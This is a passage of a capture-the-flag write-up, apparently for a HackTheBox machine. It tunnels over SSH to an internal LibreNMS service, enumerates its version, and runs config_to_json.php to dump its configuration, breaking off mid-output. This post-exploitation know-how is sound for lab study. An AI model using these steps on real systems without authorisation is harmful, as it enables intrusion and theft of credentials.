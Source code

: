 ```markdown
> ssh -L 3000:127.0.0.1:3000 frank_dorky@chatbot.htb
```
Browse the site with Firefox, a LibreNMS login comes into view.

![113Untitled](https://github.com/g1vi/AllTheWriteUps/assets/120142960/cbd71eef-801e-446f-ab04-82fcfe9d0533)

According to developer, this is "an auto-discovering PHP/MySQL/SNMP based network monitoring" (https://www.librenms.org/), and the source code is available at: https://github.com/librenms/librenms<br>
<br>
Investigating in the support forums (https://community.librenms.org), they say you can run commands from the `/opt/librenms` directory. For example you can enumerate the version with `validate.php`
```markdown
> ./validate.php

===========================================
Component | Version
--------- | -------
LibreNMS  | 22.10.0 (2022-10-18T04:47:05+00:00)
DB Schema | 2022_09_03_091314_update_ports_adsl_table_with_defaults (246)
PHP       | 8.1.2-1ubuntu2.14
Python    | 3.10.12
Database  | MariaDB 10.6.16-MariaDB-0ubuntu0.22.04.1
RRDTool   | 1.7.2
SNMP      | 5.9.1
===========================================

[OK]    Installed from package; no Composer required
[FAIL]  'install_dir' config setting is not set correctly. [FIX] It should probably be set to: /opt/librenms
```
So the version running is 22.10.0. Back in GitHub, download a copy of the source code package version 22.10.0 and inspect the source code. There are two `.php` commands that catch the attention: `adduser.php` and `config_to_json.php`<br>
<br>
Disclose the configuration data by executing `/opt/librenms/config_to_json.php`
```markdown
> ./config_to_json.php

{"install_dir":"\/opt\/librenms","active_directory":{"users_purge":0},"addhost_alwayscheckip":false,"alert":{"ack_until_clear":false,"admins":true,"default_copy":true,"default_if_none":false,"default_mail":false,"default_only":true,"disable":false,"fixed-contacts":true,"globals":true,"syscontact":true,"transports":{"mail":5},"tolerance_window":5,"users":false,"macros":{"rule":{"bill_quota_over_quota":"((%bills.total_data \/ %bills.bill_quota)*100) && %bills.bill_type = \"quota\"","bill_cdr_over_quota":"((%bills.rate_95th \/ %bills.bill_cdr)*100) && %bills.bill_type = \"cdr\"","component":"(%component.disabled = 0 && %component.ignore = 0)","component_critical":"(%component.status = 2 && %macros.component)","component_normal":"(%component.status = 0 && %macros.component)","component_warning":"(%component.status = 1 && %macros.component)","device":"(%devices.disabled = 0 && %devices.ignore = 
[…]
```
